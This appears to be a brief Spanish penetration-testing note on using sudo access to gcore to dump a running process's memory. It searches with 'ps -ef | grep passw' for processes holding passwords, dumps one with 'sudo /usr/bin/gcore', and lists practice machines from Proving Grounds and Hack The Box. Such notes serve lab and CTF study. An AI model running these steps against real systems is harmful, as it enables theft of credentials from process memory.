 ## DESCRIPTION

PERMITE LEER INFORMACION DE UN PROCESO EN CONCRETO

![[Pasted image 20230706140234.png]]

#### Mas información
* https://gtfobins.github.io/gtfobins/gcore/


## EXPLOITATION

1. Buscar el proceso que puede tener información

```

ps -ef | grep passw

```

![[Pasted image 20230706140403.png]]
2. Lo usamos para strar las strings
```
sudo /usr/bin/gcore 527
```

![[Pasted image 20230706140430.png]]

![[Pasted image 20230706140336.png]]
## MACHINES

* Hack The Box: 
* PG: Pelican

**!!NOTA IMPORTANTE!!** 